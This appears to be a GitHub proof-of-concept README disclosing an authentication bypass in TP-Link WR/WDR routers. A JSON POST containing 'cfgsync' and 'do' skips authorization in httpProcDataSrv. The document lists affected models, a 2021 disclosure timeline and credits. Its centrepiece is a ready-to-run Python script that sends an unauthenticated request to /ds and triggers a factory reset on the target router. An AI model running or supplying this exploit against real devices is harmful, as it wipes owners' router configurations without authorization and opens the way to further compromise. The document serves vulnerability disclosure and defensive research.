


# TP-Link-poc

TP-Link router have a Command Execute in ``httpProcDataSrv`` function.

Any user can get remote code execution through LAN, this vulnerability currently     affects latest WR,WDR series. includeing WDR7400,WDR7500,WDR7660,WDR7800, WDR8400,WDR8500,WDR8600,WDR8620,WDR8640,WDR8660,WR880N,WR886N,WR890N,WR890N,WR882N,WR708N etc. It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

### Vulnerability description

This vulnerability happen when ``httpProcDataSrv`` receive a data in json format from ``HTTP post request``.If the strings ``cfgsync`` and ``do``in users input,the post json would  bypass httpDoAuthorize.





### Poc
```python3
import sys
import requests
if len(sys.argv) != 2:
    exit()
ip = sys.argv[1]
s = requests.Session()
data = "{\"system\":{\"reset\":null},\"method\":\"do\", \"cfgsync\":{\"get_config_info\":null}}"

response = s.post("http://%s/ds" %ip, data=data)
print("Status code:   %i" % response.status_code)
print("Response body: %s" % response.content)
```

### Timeline
2021.7.27 report to CVE and TP-Link

### Acknowledgment
Credit to [@H4lo](https://github.com/H4lo) from Hatlab at dbappsecurity.
